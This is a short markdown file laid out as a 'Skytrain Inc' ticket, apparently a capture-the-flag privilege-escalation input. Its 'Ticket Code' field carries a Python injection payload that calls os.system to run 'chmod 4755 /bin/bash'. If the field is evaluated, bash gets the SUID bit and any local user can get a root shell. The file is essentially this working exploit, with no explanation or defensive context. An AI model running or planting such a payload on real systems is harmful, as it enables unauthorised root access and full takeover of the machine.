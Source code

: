 # Skytrain Inc
## Ticket to hola
__Ticket Code:__
**11+100 and __import__("os").system("chmod 4755 /bin/bash")**